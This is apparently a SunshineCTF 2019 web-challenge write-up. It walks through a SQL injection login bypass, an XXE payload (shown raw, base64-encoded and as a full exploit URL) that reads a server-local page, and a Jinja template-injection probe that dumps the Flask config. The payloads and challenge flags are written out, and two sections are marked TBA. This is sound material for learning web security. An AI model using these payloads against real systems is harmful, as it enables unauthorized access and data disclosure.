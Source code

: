 # Web Challenge
Lots of wrestlers. nice.
<br>
<br>
## 100 points: WrestlerBook
```
WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profiles.
```
<a href="http://archive.sunshinectf.org:19006">http://archive.sunshinectf.org:19006</a>
```
Author: dmaria
```
Opening the website:

![](/Images/2019/SunshineCTF/WrestlerBook.PNG)

It's a simple login screen, and being a basic web challenge, it's probably SQLi (SQL injection). First thing I do is try to login using '`' or '1'='1`' as both the username and the password. It works, but all you get is this:

![](/Images/2019/SunshineCTF/hulkhogie.PNG)

Looks like its going to be a bit more work than I thought. However, looking at the user info, there appears to be a flag section that's just empty for this user. Perhaps '`flag`' is a column in the database. I used the LIKE operator to test for an entry that contains '`sun`'. My payload therefore becomes:

username: `' or flag LIKE '%sun%' or '1'='2`

password: `' or '1'='2`

The `'1'='2` part of each section allows me to incorporate the ending quote while not afecting the query, since '1' is never equal to '2'. My payload worked:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563510097884741642/unknown.png">

flag: `sun{ju57_4n07h3r_5ql1_ch4ll}`
<br>
<br>
<br>
## 150 points: Wrestler Name Generator
```
Even better than the Wu-Tang name generator, legend has it that Hulk Hogan used this app to get his name.
```
<a href='http://archive.sunshinectf.org:19007'>http://archive.sunshinectf.org:19007</a>
```
Author: dmaria
```
Opening the website, we're greeted with this colorful page:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563510519831461909/unknown.png">

Viewing the page's source code gets us this gem of a script:
```
<script>
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
</script>
```
Searching up XML exploitations, it appears as though this challenge will be XXE, or XML External Entity. But what are we trying to do? I pressed the "Generate" button with empty fields and got this page:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563511596836585485/unknown.png">

Opening the sourcecode, we see the following comment:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563511441164992533/unknown.png">

It's clear that we need to access this from server-side and direct the output to client-side. We can do this by loading in an external entity into any of the fields, so that when the website parses the `<lastname>` tag and puts it onto the page, we see the external entity. After searching, I got the following xml:
```
<?xml version='1.0' encoding='utf-8'?><!DOCTYPE lastNAME [<!ENTITY test SYSTEM "http://127.0.0.1/generate.php?">]><input><firstName></firstName><lastName>&test;</lastName></input>
```

This loads the page from server side and stores it into an entity called 'test'. `&test;` calls the value of the entity as the value between the lastName tags, so we should see something when we go to the website with that XML sent as the payload. How do we send it? Luckily, the url has a parameter '`input`' that is set equal to a base64 string. Returning to the first page, we see that the function `btoa` encodes its argument into base64, so we need to convert our exploit to base64:
```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0+PGlucHV0PjxmaXJzdE5hbWU+PC9maXJzdE5hbWU+PGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU+PC9pbnB1dD4=
```
Finally, URLencoding it gets us:
```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0%2BPGlucHV0PjxmaXJzdE5hbWU%2BPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D
```
Going to the site (post-competition url, during competition domain was `ng.sunshinectf.org/`):
```
http://archive.sunshinectf.org:19007/generate.php?input=PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0%2BPGlucHV0PjxmaXJzdE5hbWU%2BPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D
```
This nets us the flag:

<img src="https://cdn.discordapp.com/attachments/561665413918883840/563514724642193408/unknown.png">

flag: `sun{1_l0v3_hulk_7h3_3x73rn4l_3n717y_h064n}`
<br>
<br>
<br>
## 150 points: Portfolio
```
Check out my development portfolio! I'm just getting started, so don't be too mean :(
```
<a href='http://archive.sunshinectf.org:19009'>http://archive.sunshinectf.org:19009</a>
```
Author: dmaria
```
<img src="https://media.discordapp.net/attachments/532350033241309226/563516428326666250/unknown.png?width=1368&height=754">

Going to the first link, we see:

<img src='https://cdn.discordapp.com/attachments/532350033241309226/563516676742840360/unknown.png'>

This suggests that this is a Flask exploit. Since the url is 'http://folio.sunshinectf.org:19009/hello/name', I tried changing `name` to see what would happen. Sure enough, the page updated to match. From there, I tried the standard procedure to determine what template the server was using by plugging in `{{7*7}}` and `{7*7}`. Neither resulted in the webpage displaying 49, which told me either the page wasn't vulnerable, or that the braces were being filtered.

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563518048309608469/unknown.png">

I then moved onto the second link.

<img src='https://cdn.discordapp.com/attachments/532350033241309226/563518296389976094/unknown.png'>

<img src='https://cdn.discordapp.com/attachments/532350033241309226/563518340404871188/unknown.png'>

Looking at the webpage and its sourcecode, it appears that we can load some templates. I first tried changing the value of the first option to be the commented out `admin.html` template, but that didn't return anything useful. But then I had an idea; what if we accessed the first page from this page? Perhaps the filtering is only server side. I did this with Postman:

<img src="https://cdn.discordapp.com/attachments/561665413918883840/561982562998812682/unknown.png">

But you could have done this by changing the source code with inspect to:

<img src='https://cdn.discordapp.com/attachments/532350033241309226/563520023344447489/unknown.png'>

Anyway, `{{5*5}}` evaluated to 25, so the page is vulnerable after all. The first thing I check from here is always the `{{config}}`:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563519579142488118/unknown.png">

flag: `sun{5l33333p_15_f0r_7h3_w34k}`
<br>
<br>
<br>
## 300 points: Enter the Polygon 1
```
These photos are The Best There Is, The Best There Was and The Best There Ever Will Be. Give me your photos I'll EXAMINE if they meet the bar.
```
<a href='http://img.sunshinectf.org'>http://img.sunshinectf.org</a>
```
Author: Astor
```
TBA
<br>
<br>
<br>
## 300 points: Enter the Polygon 2
TBA
